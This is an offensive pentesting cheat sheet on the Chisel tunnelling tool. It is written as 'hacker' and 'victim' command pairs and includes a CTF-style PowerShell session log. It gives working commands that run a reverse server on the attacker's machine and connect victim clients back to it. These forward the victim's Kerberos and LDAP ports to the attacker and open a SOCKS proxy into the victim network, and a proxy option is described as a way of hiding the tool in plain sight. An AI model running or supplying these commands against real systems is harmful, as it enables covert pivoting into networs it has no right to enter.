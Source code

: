 chisel

go get -v github.com/jpillora/chisel

================================================================
================================================================


# forward port 389 and 88 to hacker computer
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 

# SOCKS
user@victim$ .\chisel.exe client YOUR_IP:8008 R:socks

SharpChisel

A C# Wrapper of Chisel : https://github.com/shantanu561993/SharpChisel

user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"

================================================================
================================================================

server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/19/2022   8:52 PM        8230912 chisel.exe                                                            


PS C:\temp> dir
dir


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/19/2022   8:52 PM        8230912 chisel.exe                                                            


PS C:\temp> ./chisel.exe clien 10.10.14.3:6969 R:socks
./chisel.exe clien 10.10.14.3:6969 R:socks

  Usage: chisel [command] [--help]

  Version: 1.7.7 (go1.17.6)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel

PS C:\temp> ./chisel.exe client 10.10.14.3:6969 R:socks
./chisel.exe client 10.10.14.3:6969 R:socks
2022/04/20 20:58:29 client: Connecting to ws://10.10.14.3:6969
2022/04/20 20:58:30 client: Connected (Latency 156.9076ms)


